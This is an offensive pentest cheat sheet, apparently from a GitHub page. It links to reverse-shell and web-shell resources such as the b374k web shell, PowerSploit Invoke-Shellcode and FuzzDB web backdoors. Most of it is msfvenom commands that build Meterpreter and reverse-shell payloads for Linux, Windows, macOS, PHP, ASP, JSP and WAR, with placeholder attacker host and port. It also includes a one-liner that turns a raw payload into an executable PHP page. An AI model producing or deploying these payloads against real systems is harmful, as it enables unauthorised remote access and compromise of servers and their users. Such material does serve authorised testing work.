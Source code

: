 -   Perl Reverse Shell  
    [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

-   PHP powered web browser Shell b374k with file upload etc.  
    [https://github.com/b374k/b374k](https://github.com/b374k/b374k)

-   Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell 
    https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1
    
-   Web Backdoors from Fuzzdb 
    https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors

-   Creating Meterpreter Shells with MSFVenom - http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/
      
      *Linux*
      
      `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`
      
      *Windows*
      
      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`
      
      *Mac*

      `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`
      
      **Web Payloads**
      
      *PHP*
      
      `msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`
      
      OR
      
      `msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`
      
      Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage:
      
      `cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`
      
      *ASP*

      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`
      
      *JSP*

      `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`
      
      *WAR*

      `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`
      